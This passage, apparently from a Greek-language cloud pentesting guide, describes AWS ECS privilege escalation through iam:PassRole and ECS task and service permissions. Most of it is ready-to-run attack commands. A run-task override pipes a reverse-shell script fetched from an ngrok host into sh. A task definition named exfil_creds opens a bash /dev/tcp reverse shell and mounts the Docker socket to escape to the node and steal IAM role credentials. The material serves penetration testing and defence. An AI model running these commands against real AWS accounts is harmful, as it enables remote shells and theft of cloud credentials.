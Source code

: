 ```bash
# Run the task creating a service
aws ecs create-service --service-name exfiltration \
--task-definition iam_exfiltration \
--desired-count 1 \
--cluster "$CLUSTER_ARN" \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"$SUBNET\"]}}"

# Run the task updating a service
aws ecs update-service --cluster <CLUSTER NAME> \
--service <SERVICE NAME> \
--task-definition <NEW TASK DEFINITION NAME>
```
**Potential Impact:** Άμεσο privesc σε οποιονδήποτε ECS role.

### `iam:PassRole`, (`ecs:UpdateService|ecs:CreateService)`

Στην πραγματικότητα, μόνο με αυτά τα δικαιώματα είναι δυνατό να χρησιμοποιήσετε overrides για να εκτελέσετε αυθαίρετες εντολές σε ένα container με οποιοδήποτε role, με κάτι σαν:
```bash
aws ecs run-task \
--task-definition "<task-name>" \
--overrides '{"taskRoleArn":"<role-arn>", "containerOverrides":[{"name":"<container-name-in-task>","command":["/bin/bash","-c","curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh"]}]}' \
--cluster <cluster-name> \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"DISABLED\", \"subnets\":[\"<subnet-name>\"]}}"
```
**Potential Impact:** Άμεση privesc σε οποιονδήποτε ρόλο ECS.

### `ecs:RegisterTaskDefinition`, **`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

Αυτό το σενάριο είναι σαν τα προηγούμενα αλλά **χωρίς** την **`iam:PassRole`** άδεια.\
Παραμένει όμως ενδιαφέρον επειδή αν μπορείτε να τρέξετε ένα αυθαίρετο container, ακόμη κι αν είναι χωρίς ρόλο, θα μπορούσατε να **run a privileged container to escape** στον node και να **steal the EC2 IAM role** και τους **other ECS containers roles** που τρέχουν στον node.\
Μπορείτε ακόμη και να **force other tasks to run inside the EC2 instance** που θα συμβιβάσετε, για να κλέψετε τα credentials τους (όπως συζητείται στην [**Privesc to node section**](aws-ecs-post-exploitation.md#privesc-to-node)).

> [!WARNING]
> Αυτή η επίθεση είναι δυνατή μόνο αν το **ECS cluster is using EC2** instances και όχι Fargate.
```bash
printf '[
{
"name":"exfil_creds",
"image":"python:latest",
"entryPoint":["sh", "-c"],
"command":["/bin/bash -c \\\"bash -i >& /dev/tcp/7.tcp.eu.ngrok.io/12976 0>&1\\\""],
"mountPoints": [
{
"readOnly": false,
"containerPath": "/var/run/docker.sock",
"sourceVolume": "docker-socket"
}
]
}
]' > /tmp/task.json

printf '[
{
"name": "docker-socket",
```